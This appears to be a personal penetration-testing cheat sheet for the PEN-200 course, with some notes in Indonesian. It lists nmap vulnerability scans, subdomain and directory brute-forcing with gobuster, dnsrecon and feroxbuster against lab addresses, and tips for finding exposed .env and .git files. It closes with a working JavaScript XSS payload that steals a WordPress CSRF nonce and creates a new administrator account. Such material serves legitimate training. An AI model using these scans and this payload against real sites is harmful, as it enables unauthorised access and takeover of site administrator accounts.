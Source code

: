 ```bash
sudo nmap -sCVS -oA nmap/astronaut -vvv 192.168.207.12 -Pn 
```
- Windows
```bash
sudo nmap -sCVS -oA nmap/nagoya --script=smb-vuln-* -vvv 192.168.239.21
```
- Nmap Automator
```bash
/opt/nmapAutomator.sh  --host 192.168.157.99 --type All -o nmap
```

2. Subdomain brute
```bash
gobuster dns -d marketing.pg -w /opt/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -i

dnsrecon -d megacorpone.com -t brt -D /opt/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
```

3. Web dir brute (PASTIIN CEK FILE&DIR BAHAYA YG COMMON, .env, .git, etc.)
```bash
feroxbuster -u http://192.168.229.244/0000 -x pdf,config,json,zip,tar.gz -o feroxbuster_recursive_0000 -w /opt/wordlists/seclist/Discovery/Web-Content/big.txt -s 200,301,302,403 --smart

feroxbuster -u http://192.168.234.249/ -x pdf,config,json,zip,tar.gz -o feroxbuster/192.168.234.249 -w /opt/wordlists/seclist/Discovery/Web-Content/big.txt -s 200,301,302,403 --smart --no-recursion


gobuster dir --url "http://192.168.152.226/" -w /opt/wordlists/SecLists/Discovery/Web-Content/big.txt -o gobuster.log -x php

zip, json, tar.gz, php, jsp, do, txt, or html
```
```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern -o gobuster_api.log

pattern >> File yang isinya pattern:
ex:
{GOBUSTER}/v1
{GOBUSTER}/v2
```
```bash (kalo dah dapet, terutama API, brute terus sampe directory paling terakhir)
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt -o gobuster_api_admin.log
```

## XSS (module pen-200, https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/)
1) Payload to steal wp-nonce (CSRF token wordpress)
```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```